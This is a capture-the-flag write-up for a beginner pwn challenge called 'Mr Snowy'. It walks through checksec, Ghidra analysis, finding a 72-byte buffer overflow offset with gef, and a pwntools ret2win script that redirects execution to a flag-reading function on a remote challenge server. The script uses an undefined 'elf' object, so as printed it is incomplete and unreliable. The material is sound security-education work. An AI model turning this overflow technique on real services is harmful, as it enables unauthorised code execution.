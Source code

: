 # Mr Snowy (Day 1)

We are presented with a file called **mr_snowy**. I first ran *checksec* to see its security protections 

![checksec](https://user-images.githubusercontent.com/71312079/151013607-b92d96e7-fb52-46d1-92e3-4d13276bf334.png)

Hmm... Seems like although there is no stack canary present, the stack is non-executable meaning that I can't load shellcode and execute it on the stack.

The next step would be to execute the file, where I was greeted with the following prompt:

![mrsnowy1](https://user-images.githubusercontent.com/71312079/151013653-2d0ad278-18c1-417f-8ba5-8d5bcda62690.png)

Choosing *2* would simply exit the program and selecting *1* led me to this next screen:

![mrsnowy2](https://user-images.githubusercontent.com/71312079/151013664-0b22bccc-1c73-4240-9ce6-56bdcdcd0351.png)

Similarly to the previous screen, selecting *2* would also exit the program but I received the following prompt after selecting *1* would still lead to a **Mission Failed** as I somehow needed a password?

Still a little confused, I then opened the file in Ghidra and noted that there was a function called **deactivate_camera** which would read the **flag.txt**.

![deactivate_camera](https://user-images.githubusercontent.com/71312079/151013626-4c80d9e4-fdc3-4298-8285-55fcf4d4e6f3.png)

Bingo! Seems like we will have to navigate to the address of **deactivate_camera** in order to obtain the flag. Looking at the **Investigate** function, we also see that the variable *local_48* appears to be vulnearble to a buffer overflow attack

![investigate](https://user-images.githubusercontent.com/71312079/151013644-8d0b5c63-1b68-4627-89d1-bda0ae4d2136.png)


To calculate the offset for the buffer overflow, I will use **gef**, which provides additional functionality to **gdb**. These are the steps I performed:
1. Created a pattern of *100 bytes* (I know the offset should be > 64 bytes since the buffer was 64 bytes long )
2. Ran the file and inputted the pattern that gef generated for me at the *investigate* function
3. Searched for the pattern in *$rsp* after the segmentation occured
4. Noted that the offset is **72** 

![gef_offset](https://user-images.githubusercontent.com/71312079/151013636-40d13112-7cc1-4c8f-9984-60a62e22b85e.png)

I then created a python script to craft the payload to send to the remote server, allowing me to obtain the flag.

```python
from pwn import *
p = remote('159.65.52.165', 32386)
# offset obtained from gef
offset = 72

for i in range(16):
    print(p.recvuntil("\n"))

p.sendline('1')
for i in range(5):
    print(p.recvuntil("\n"))

addr = elf.symbols['deactivate_camera']
print('addr', addr)
payload = [
        b'A'*72,
        p64(addr)
        ]
payload = b"".join(payload)
p.sendline(payload)

p.interactive()
```

Flag: `HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}`

## Thoughts:
* This was my first ever pwning challenge and I really enjoyed it as it was quite beginner friendly.
* For most of the code involving *pwntools*, I relied on a [walkthrough](https://www.youtube.com/watch?v=WNh3tFysYXY&t=831s&ab_channel=JohnHammond) by John Hammond that provides a generic template for tackling pwning challenges as they tend to follow a similar pattern.